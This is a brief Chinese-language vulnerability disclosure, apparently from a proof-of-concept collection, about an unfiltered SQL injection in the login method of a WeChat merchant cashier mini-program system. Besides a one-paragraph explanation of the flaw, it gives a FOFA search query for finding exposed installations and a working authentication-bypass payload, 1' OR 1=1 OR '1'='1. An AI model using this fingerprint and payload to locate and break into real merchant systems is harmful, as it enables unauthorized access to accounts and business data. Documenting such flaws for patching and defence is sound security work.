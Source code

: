 # 微信公众号商家收银台小程序系统存在前台SQL注入漏洞

微信公众号商家收银台小程序系统存在前台SQL注入漏洞，/system/platform/controller/index.php 登录控制器中的api_login_check 方法，通过POST传入username,password,code 三个参数之后直接进入到SQL查询中，且未有任何过滤，导致漏洞产生。

## fofa

```javascript
"/index.php?s=platform/index/captcha"
```

## poc

```javascript
1' OR 1=1 OR '1'='1
```

![d1c295315cc728f91214a29ba6a8c463](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141432533.jpg)

![98204052f465039cbf5a08afb6382c71](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141432078.jpg)